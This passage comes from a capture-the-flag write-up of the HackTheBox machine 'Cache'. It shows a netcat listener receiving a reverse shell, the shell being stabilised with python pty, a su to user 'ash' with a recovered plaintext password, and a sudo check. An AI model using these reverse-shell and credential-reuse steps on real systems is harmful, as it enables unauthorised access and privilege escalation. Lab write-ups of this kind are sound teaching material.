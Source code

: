 Next, all that is left for us to do is to stabilize the reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000
listening on [any] 3000 ...
connect to [10.10.16.250] from (UNKNOWN) [10.10.10.188] 52156
bash: cannot set terminal process group (1603): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cache:/var/www/hms.htb/public_html/portal$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<al$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@cache:/var/www/hms.htb/public_html/portal$ export TERM=xterm
export TERM=xterm
www-data@cache:/var/www/hms.htb/public_html/portal$ stty cols 132 rows 34
stty cols 132 rows 34
www-data@cache:/var/www/hms.htb/public_html/portal$ 
```

## Low-level privilege escalation

However, we realize that we are now ```www-data``` and does not have sufficient privileges to read the user flag.

```
www-data@cache:/$ cd /home/ash
cd /home/ash
www-data@cache:/home/ash$ ls
ls
Desktop  Documents  Downloads  Music  Pictures  Public  user.txt
www-data@cache:/home/ash$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
www-data@cache:/home/ash$ 
```

Recalling that we have obtained the credentials for ```ash``` previously, we will now try to login as ```ash``` and read the flag. 

```
www-data@cache:/home/ash$ su ash
su ash
Password: H@v3_fun

ash@cache:~$ cat user.txt
cat user.txt
<Redacted user flag>
ash@cache:~$
```

## High-level privilege escalation
First, we will check if the user ```ash``` has sudo privileges, and it seems that ```ash``` does not have the sufficient privileges to execute ```sudo``` commands.

```
ash@cache:~$ sudo -l
sudo -l
[sudo] password for ash: H@v3_fun

Sorry, user ash may not run sudo on cache.
```
